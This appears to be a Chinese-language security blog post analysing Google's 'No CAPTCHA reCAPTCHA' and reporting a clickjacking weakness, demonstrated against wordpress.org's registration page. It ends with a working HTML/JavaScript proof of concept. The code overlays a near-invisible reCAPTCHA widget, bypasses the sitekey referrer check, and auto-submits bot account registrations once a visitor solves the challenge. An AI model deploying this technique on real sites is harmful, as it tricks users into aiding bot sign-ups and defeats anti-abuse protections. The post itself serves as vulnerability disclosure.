 ```yaml
---
layout: post
title: The security risk of "google reCAPTCHA"
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>


#### reCAPTCHA ([Index](http://www.google.com/recaptcha/intro/))

> Google在2014.12.03发表了一篇文章 《[Are you a robot? Introducing “No CAPTCHA reCAPTCHA”](http://googleonlinesecurity.blogspot.hk/2014/12/are-you-robot-introducing-no-captcha.html)》

文章开始讲述传统验证码的方式令“真正人类”头疼，且研究表明现在的人工智能技术已经能够解决99.8%的验证码，因此扭曲的文本验证方式可能不在是一个可靠的方法。

![gg_old_captcha](http://1.hackersoul.sinaapp.com/img/media/gg_old_captcha.jpg)

- 头疼的验证码输入
- 不可靠的文字验证码

所以不少的社区论坛使用人工识别图片选择文字答案作为验证码的方式来代替传统的验证码。

随后GG推出了**```reCAPTCHA```**项目。

![demo](http://1.hackersoul.sinaapp.com/img/media/Recaptcha_anchorxxxxxx2x.gif)

    reCAPTCHA被gg称作没有验证码的验证码（"No CAPTCHA reCAPTCHA"），
    他让用户只需要简单的勾选就可以确认你是真实用户而非恶意机器人，操作非常简单。

#### 非单一验证
Vinay Shet或者reCAPTCHA团队也考虑到这种判断方法可能会存在误报情况，所以将验证方式进行了稳固。

 1. 传统验证码并未消失，还是会有提示输入传统验证码的方法来检测：
 ![gg_old_captcha](http://1.hackersoul.sinaapp.com/img/media/CAPTCHA_dsahkdhkusa213dsza7i21n.png)
 
 2. 展示一张图片，让用户选择他们下面提供的图片中哪张是符合图片的：
 ![gg_old_captcha](http://1.hackersoul.sinaapp.com/img/media/turkey_captcha2.png)
 3. 好人/坏人的判断算法
 

reCAPTCHA并未详细的说明这个新的验证码API算法的具体情况，但其中好人坏人的判断方式应该最为复杂，或基于session/cookie？

> As more websites adopt the new API, more people will see "No CAPTCHA reCAPTCHAs".  Early adopters, like Snapchat, WordPress, Humble Bundle, and several others are already seeing great results with this new API. For example, in the last week, more than 60% of WordPress’ traffic and more than 80% of Humble Bundle’s traffic on reCAPTCHA encountered the No CAPTCHA experience—users got to these sites faster. To adopt the new reCAPTCHA for your website, visit our site to learn more.

文章的最后说越来越多的网站开始使用这个新的API，例如：Snapchat, WordPress, Humble Bundle等等，也推荐大家开始使用这个reCAPTCHA项目。

#### ClickJacking

当我看完这篇文章时非常激动，因为我们再也不需要为复杂或恶心的验证码所头疼了，但之后我发现reCAPTCHA可能存在ClickJacking这种攻击类型的安全隐患，其中我们以Wordpress官方站点为例。

 - [Wordpress官方站点注册用户](https://wordpress.org/support/register.php)

其中仅仅是帐号以及邮箱是必须的，然后勾选reCAPTCHA所提供的验证码即可完成注册。

 - [ClickJacking点击劫持攻击注册](http://1.hackersoul.sinaapp.com/payload/no_captcha_clickjacking.html)

![demo_1](http://1.hackersoul.sinaapp.com/img/media/69DFB6AC-8075-4F45-AA00-031E6F0F084E.png)

等待过后你将跳转到注册成功的页面：

![demo_2](http://1.hackersoul.sinaapp.com/img/media/1A61E266-8B1B-4BF1-813A-536B6FB09B7B.png)

{% highlight html %}
其中测试在古董浏览器上是无法正常进行的，另外需要提一下页面中需要添加
<meta name="referrer" content="never">
来绕过他禁止对第三方数据提供sitekey的防御。
{% endhighlight %}

> 需要注意的是，reCAPTCHA会在一段时间停滞不操作页面的情况下摧毁Session：
> 
![alert_session](http://1.hackersoul.sinaapp.com/img/media/AEAA2D26-2AA0-4AA4-9BF7-1E8071A06F53.png)

#### POC

{% highlight bash %}
<html>
    <head>
        <title>No_CAPTCHA ClickJacking demo</title>
        <meta name="referrer" content="never">
		<script type='text/javascript' src='https://www.google.com/recaptcha/api.js?ver=2'></script>
	</head>
    <body>
    <form method="post" action="https://wordpress.org/support/register.php">
    <div style="opacity:0.1" class="g-recaptcha" data-sitekey="6Ld6gcoSAAAAAEkCxPeS-_sqEokNIHwNCOtx17xo"></div>
    <input name="user_login" type="hidden" id="user_login" size="30" maxlength="30" value="" />
    <input name="user_email" id="user_email" type="hidden" value="" />
    </form>  
	半透明为了更好的展示，点击测试攻击。
    <script>
        function makeid()
        {
            var text = "";
            var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
        
            for( var i=0; i < 7; i++ )
                text += possible.charAt(Math.floor(Math.random() * possible.length));
        
            return text;
        }
        user_login.value='BOT-'+makeid();
        user_email.value='BOT-'+makeid()+'@gmail.com';
        
        check = setInterval(function(){
          v=document.getElementById('g-recaptcha-response').value
          if(v.length>0){
            alert('Thanks for helping my bot! Your token is '+v);
            document.forms[0].submit();
            clearInterval(check);
          }
        },400)
    </script>
    </body>
</html>
{% endhighlight %}

#### 最后

google reCAPTCHA引进了一个非常NICE的验证码方式，在未来也同样可能有着跨时代的意义，但引入新模式的同时终会出现不可预料的问题，也许很多，很多。
 
 * 部分文献参考
    - [http://googleonlinesecurity.blogspot.hk/2014/12/are-you-robot-introducing-no-captcha.html](http://googleonlinesecurity.blogspot.hk/2014/12/are-you-robot-introducing-no-captcha.html)
    - [http://homakov.github.io/nocaptcha.html](http://homakov.github.io/nocaptcha.html)
    - [http://www.bbc.com/news/blogs-magazine-monitor-30326350](http://www.bbc.com/news/blogs-magazine-monitor-30326350)